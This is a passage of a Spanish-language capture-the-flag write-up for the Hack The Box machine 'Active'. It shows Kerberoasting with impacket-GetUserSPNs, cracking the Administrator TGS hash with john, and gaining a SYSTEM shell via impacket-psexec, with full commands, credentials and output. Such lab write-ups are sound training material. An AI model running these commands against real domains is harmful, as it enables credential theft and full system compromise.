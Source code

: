 Vemos que el único usuario dentro del grupos `Admins` es `Administrator`. Ahora, con la utilidad `impacket-GetUserSPNs` podemos solicitar un TGS, en este caso del usuario **Administrator**. (**Nota**: En caso de obtener el error `Kerberos SessionError`, nos instalamos `rdate` para sincronizar nuestro relog con el Domain Controller `rdate -n 10.10.10.100`)
.
```bash
❯ impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -output tgs.hash
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 14:06:40.351723  2021-01-21 10:07:03.723783
```

Como ya tenemos un hash dentro del archivo `tgs.hash`, ya debemos estar pensando en `john`:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt tgs.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:47 DONE (2021-12-05 22:30) 0.02121g/s 223568p/s 223568c/s 223568C/s Tiffani1432..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Ya tenemos la contraseña del usuario **Administrator** del dominio y podemos conectarnos a la máquina:

```bash
❯ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file vzDHsSZG.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service DVAK on 10.10.10.100.....
[*] Starting service DVAK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

Nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
